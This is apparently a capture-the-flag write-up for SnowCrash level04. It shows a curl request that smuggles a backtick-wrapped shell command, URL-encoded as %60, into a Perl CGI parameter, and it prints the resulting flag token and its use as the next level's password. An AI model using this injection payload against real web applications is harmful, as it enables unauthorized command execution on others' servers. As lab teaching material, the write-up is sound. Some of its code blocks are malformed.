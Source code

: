 
## 1 Execute the Command

To retrieve the token using the getflag command through the Perl script, run the following curl command:

``` console
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=%60getflag%60"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
## 2 Switch to Level 05

Use the retrieved token to switch to the next level:

``` console
level04@SnowCrash:~$ su level05
Password: ne2searoevaevoem4ov4ar8ap
```

## Understanding the Perl Script:

The script uses the CGI module to read parameters from the URL. It calls the ``function x(param("x"))``, where ``param("x")`` retrieves the value of the query parameter `x`. Inside the function x, it executes the command using backticks: 
```perl
print `echo $y 2>&1`;
```
This means whatever is passed as `x` is executed as a shell command, and the output is printed back to the web browser.

#### Original Command Attempt: ❌

When you tried to use backticks directly in the URL, like 
``` bash
curl "http://localhost:4747/level04.pl?x=\getflag`"`
```
, the shell was interpreting it before it even reached the script, so it didn't work. 

#### Using URL Encoding:🔄

URL encoding converts special characters into a format that can be transmitted over the internet. The backtick character (`) is a special character in the shell, so it needed to be encoded. By encoding the backticks as %60, the command becomes 
```bash
curl "http://localhost:4747/level04.pl?x=%60getflag%60". Command Execution:
```
### Command Execution 🚀
The encoded command sent to the script effectively allows it to interpret the entire string as a command to execute. When the script executes 
``` bash 
echo $y
```
 where `$y` is now `getflag`, it calls the getflag command, which runs with the permissions of the script itself (in this case, likely elevated due to the setuid bit). 

Output Handling 📬

The command's output 
``` bash 
Check flag. Here is your token: ne2searoevaevoem4ov4ar8ap
``` 
was then sent back to your terminal via the curl command. This output confirms that the command was executed successfully, and the expected result was printed.
